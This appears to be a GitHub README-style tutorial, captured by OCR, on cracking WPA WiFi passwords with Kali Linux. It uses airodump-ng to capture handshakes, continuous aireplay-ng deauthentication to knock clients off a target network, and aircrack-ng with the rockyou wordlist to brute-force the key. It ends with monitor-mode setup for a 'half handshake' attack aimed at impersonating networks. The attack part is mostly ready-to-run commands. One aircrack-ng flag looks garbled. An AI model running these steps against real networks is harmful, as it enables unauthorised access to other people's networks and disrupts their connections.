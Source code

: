 While Reaver kept bombarding WiFi router with continuous retries, Brute-Force captured successful client handshakes from which a LOCK was crafted to be opened by the keys in a dictionary until a match was found. Rather than meddling with the router like forever, the brief encounter ended by a handshake that transcended into a much longer journey of lonely data processing.

The dictionay such as rockyou.txt was a text file that contained commonly-used passwords or combinations of letters and numbers. A good dictionary thus needed to have "ALL" combinations imaginable. Ours contained 144344394 passwords that was a huge list. So an attack of this nature was time consuming. Success was based on computing power and the number of combinations tried rather than an ingenious algorithm.

Having put the 2200mW NextG USB-Yagi TurboTenna into the packet monitoring and injection mode, we opened two command line terminals. One for capturing the handshake data and the other kept provoking for client handshakes.

To launch Brute-Force against WiFi network with <BSSID> 11:22:33:44:55:66 and <ESSID> MyWiFi at channel 2:
```
airodump-ng -c 2 11:22:33:44:55:66 -w /root/Desktop/MyWiFi wlan0mon
```
To provoke client handshakes:
```
aireplay-ng -0 0 -a 11:22:33:44:55:66 wlan0mon
```
These processes were stopped once a successful handshake was found. KALI Linux has a dictionary residing in /usr/share/wordlists/rockyou.txt.gz

To make sure that we had the latest update and installed the dictionary on Desktop:
```
apt-get update && apt-get full-upgrade

cd Desktop

gunzip /usr/share/wordlists/rockyou.txt.gz
```
To try opening MyWiFi-01.cap with keys in the dictionary rockyou.txt:
```
aircrack-ng -1 rockyou.txt MyWiFi-01.cap
```







# Half Handshake Attack
### look up wifi adapter:
```
ifconfig -a
or
ip addr
```
### Packet monitoring and injection commands:
```
airmon-ng check kill

airmon-ng check

airmon-ng start wlan0

airodump-ng wlan0mon
```
this will let you see what wifi networks are around to impersonate 
